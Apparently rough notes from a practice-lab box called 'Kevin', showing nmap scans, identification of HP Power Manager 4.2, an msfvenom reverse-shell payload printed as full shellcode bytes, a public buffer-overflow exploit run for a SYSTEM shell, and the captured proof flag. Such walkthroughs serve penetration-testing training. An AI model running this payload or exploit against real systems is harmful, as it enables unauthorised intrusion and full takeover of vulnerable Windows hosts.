


# Kevin (rough notes)

```
┌──(kali㉿kali)-[~]
└─$ nmap -v -Pn -p- -T4 kevin                   
...

PORT      STATE    SERVICE
80/tcp    open     http
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
3389/tcp  open     ms-wbt-server
3573/tcp  open     tag-ups-1
46246/tcp filtered unknown
49152/tcp open     unknown
49153/tcp open     unknown
49154/tcp open     unknown
49155/tcp open     unknown
49158/tcp open     unknown
49159/tcp open     unknown
```

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -v -Pn -sU -T4 --top-ports 100 kevin
...

PORT      STATE         SERVICE
67/udp    open|filtered dhcps
123/udp   open|filtered ntp
135/udp   open|filtered msrpc
137/udp   open          netbios-ns
138/udp   open|filtered netbios-dgm
158/udp   open|filtered pcmail-srv
177/udp   open|filtered xdmcp
427/udp   open|filtered svrloc
```

```
┌──(kali㉿kali)-[~]
└─$ nmap -v -Pn -T4 -p 80,135,139,445,3389,3573,49152,49153,49152,49155,49158,49159
...

PORT      STATE SERVICE            VERSION
80/tcp    open  http               GoAhead WebServer
| http-methods: 
|_  Supported Methods: GET
| http-title: HP Power Manager
|_Requested resource was http://kevin/index.asp
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Ultimate N 7600 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2024-03-09T00:16:04+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=kevin
| Issuer: commonName=kevin
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-03-08T00:05:53
| Not valid after:  2024-09-07T00:05:53
| MD5:   4d84:e448:0e7a:59c6:a3a5:3fed:47ae:ed17
|_SHA-1: f5c6:37fe:e526:661b:a79d:c6e4:9288:dd6a:bcaf:6f58
| rdp-ntlm-info: 
|   Target_Name: KEVIN
|   NetBIOS_Domain_Name: KEVIN
|   NetBIOS_Computer_Name: KEVIN
|   DNS_Domain_Name: kevin
|   DNS_Computer_Name: kevin
|   Product_Version: 6.1.7600
|_  System_Time: 2024-03-09T00:15:55+00:00
3573/tcp  open  tag-ups-1?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h36m00s, deviation: 3h34m39s, median: 0s
| smb-os-discovery: 
|   OS: Windows 7 Ultimate N 7600 (Windows 7 Ultimate N 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::-
|   Computer name: kevin
|   NetBIOS computer name: KEVIN\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-03-08T16:15:55-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-03-09T00:15:54
|_  start_date: 2024-03-09T00:06:41
| nbstat: NetBIOS name: KEVIN, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:bf:6e:e7 (VMware)
| Names:
|   KEVIN<20>            Flags: <unique><active>
|   KEVIN<00>            Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
```

I find the server on port 80 is an "HP Power Manager" server...



We find the version of HP Power Manager running is 4.2, build 7:



Looking up HP Power Manager exploits we find a Buffer Overflow / RCE:

- https://www.exploit-db.com/exploits/10099
- https://github.com/CountablyInfinite/HP-Power-Manager-Buffer-Overflow-Python3

I clone that repo, follow the instructions on the header to generate my own shell code:

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.242 LPORT=4411  EXITFUNC=thread -b '\x00\x1a\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5' x86/alpha_mixed --platform windows -f python
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of python file: 1722 bytes
buf =  b""
buf += b"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e"
buf += b"\x81\x76\x0e\x96\x95\x85\xe3\x83\xee\xfc\xe2\xf4"
buf += b"\x6a\x7d\x07\xe3\x96\x95\xe5\x6a\x73\xa4\x45\x87"
buf += b"\x1d\xc5\xb5\x68\xc4\x99\x0e\xb1\x82\x1e\xf7\xcb"
buf += b"\x99\x22\xcf\xc5\xa7\x6a\x29\xdf\xf7\xe9\x87\xcf"
buf += b"\xb6\x54\x4a\xee\x97\x52\x67\x11\xc4\xc2\x0e\xb1"
buf += b"\x86\x1e\xcf\xdf\x1d\xd9\x94\x9b\x75\xdd\x84\x32"
buf += b"\xc7\x1e\xdc\xc3\x97\x46\x0e\xaa\x8e\x76\xbf\xaa"
buf += b"\x1d\xa1\x0e\xe2\x40\xa4\x7a\x4f\x57\x5a\x88\xe2"
buf += b"\x51\xad\x65\x96\x60\x96\xf8\x1b\xad\xe8\xa1\x96"
buf += b"\x72\xcd\x0e\xbb\xb2\x94\x56\x85\x1d\x99\xce\x68"
buf += b"\xce\x89\x84\x30\x1d\x91\x0e\xe2\x46\x1c\xc1\xc7"
buf += b"\xb2\xce\xde\x82\xcf\xcf\xd4\x1c\x76\xca\xda\xb9"
buf += b"\x1d\x87\x6e\x6e\xcb\xfd\xb6\xd1\x96\x95\xed\x94"
buf += b"\xe5\xa7\xda\xb7\xfe\xd9\xf2\xc5\x91\x6a\x50\x5b"
buf += b"\x06\x94\x85\xe3\xbf\x51\xd1\xb3\xfe\xbc\x05\x88"
buf += b"\x96\x6a\x50\xb3\xc6\xc5\xd5\xa3\xc6\xd5\xd5\x8b"
buf += b"\x7c\x9a\x5a\x03\x69\x40\x12\x89\x93\xfd\x45\x4b"
buf += b"\xbb\x67\xed\xe1\x96\x84\xbe\x6a\x70\xff\x95\xb5"
buf += b"\xc1\xfd\x1c\x46\xe2\xf4\x7a\x36\x13\x55\xf1\xef"
buf += b"\x69\xdb\x8d\x96\x7a\xfd\x75\x56\x34\xc3\x7a\x36"
buf += b"\xfe\xf6\xe8\x87\x96\x1c\x66\xb4\xc1\xc2\xb4\x15"
buf += b"\xfc\x87\xdc\xb5\x74\x68\xe3\x24\xd2\xb1\xb9\xe2"
buf += b"\x97\x18\xc1\xc7\x86\x53\x85\xa7\xc2\xc5\xd3\xb5"
buf += b"\xc0\xd3\xd3\xad\xc0\xc3\xd6\xb5\xfe\xec\x49\xdc"
buf += b"\x10\x6a\x50\x6a\x76\xdb\xd3\xa5\x69\xa5\xed\xeb"
buf += b"\x11\x88\xe5\x1c\x43\x2e\x65\xfe\xbc\x9f\xed\x45"
buf += b"\x03\x28\x18\x1c\x43\xa9\x83\x9f\x9c\x15\x7e\x03"
buf += b"\xe3\x90\x3e\xa4\x85\xe7\xea\x89\x96\xc6\x7a\x36"
```

I update the code to use my shell code. See [`hp_pm_exploit_p3-modified.py`](./exploit/hp_pm_exploit_p3-modified.py) vs the original ([`hp_pm_exploit_p3.py`](./exploit/hp_pm_exploit_p3.py)).

Running the exploit gets us a shell:

```
┌──(kali㉿kali)-[~/kevin/HP-Power-Manager-Buffer-Overflow-Python3]
└─$ python hp_pm_exploit_p3.py 192.168.210.45 80 4411
[+] HP Power Manager 'formExportDataLogs' Buffer Overflow Exploit
[+] Sending exploit to Ip 192.168.210.45 on port 80. Starting local listener on port 4411
listening on [any] 4411 ...
connect to [192.168.45.242] from (UNKNOWN) [192.168.210.45] 49168
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Finding the flag:

```
C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
089ee6ee0e2bf8c78931598f95a7d646
```